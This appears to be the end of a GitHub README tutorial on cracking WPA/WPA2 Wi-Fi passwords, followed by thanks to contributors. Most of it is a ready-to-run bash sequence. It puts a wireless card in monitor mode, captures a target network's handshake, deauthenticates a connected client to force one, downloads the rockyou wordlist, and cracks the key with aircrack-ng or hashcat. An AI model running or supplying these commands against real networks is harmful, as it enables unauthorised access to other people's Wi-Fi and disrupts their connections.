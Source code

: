 ```bash
# put your network device into monitor mode
airmon-ng start wlan0

# listen for all nearby beacon frames to get target BSSID and channel
airodump-ng mon0

# start listening for the handshake
airodump-ng -c 6 --bssid 9C:5C:8E:C9:AB:C0 -w capture/ mon0

# optionally deauth a connected client to force a handshake
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0

########## crack password with aircrack-ng... ##########

# download 134MB rockyou.txt dictionary file if needed
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# crack w/ aircrack-ng
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt capture/-01.cap

########## or crack password with naive-hashcat ##########

# convert cap to hccapx
cap2hccapx.bin capture/-01.cap capture/-01.hccapx

# crack with naive-hashcat
HASH_FILE=hackme.hccapx POT_FILE=hackme.pot HASH_TYPE=2500 ./naive-hashcat.sh
```

## Attribution

Much of the information presented here was gleaned from [Lewis Encarnacion's awesome tutorial](https://lewiscomputerhowto.blogspot.com/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html). Thanks also to the awesome authors and maintainers who work on Aircrack-ng and Hashcat. 

Shout out to [DrinkMoreCodeMore](https://www.reddit.com/user/DrinkMoreCodeMore), [hivie7510](https://www.reddit.com/user/hivie7510), [cprogrammer1994](https://github.com/cprogrammer1994), [0XE4](https://github.com/0XE4), [hartzell](https://github.com/hartzell), [flennic](https://github.com/flennic), [bhusang](https://github.com/bhusang), [tversteeg](https://github.com/tversteeg), [gpetrousov](https://github.com/gpetrousov), [crowchirp](https://github.com/crowchirp) and [Shark0der](https://github.com/shark0der) who also provided suggestions and typo fixes on [Reddit](https://www.reddit.com/r/hacking/comments/6p50is/crack_wpawpa2_wifi_routers_with_aircrackng_and/) and GitHub. If you are interested in hearing some proposed alternatives to WPA2, check out some of the great discussion on [this](https://news.ycombinator.com/item?id=14840539) Hacker News post.
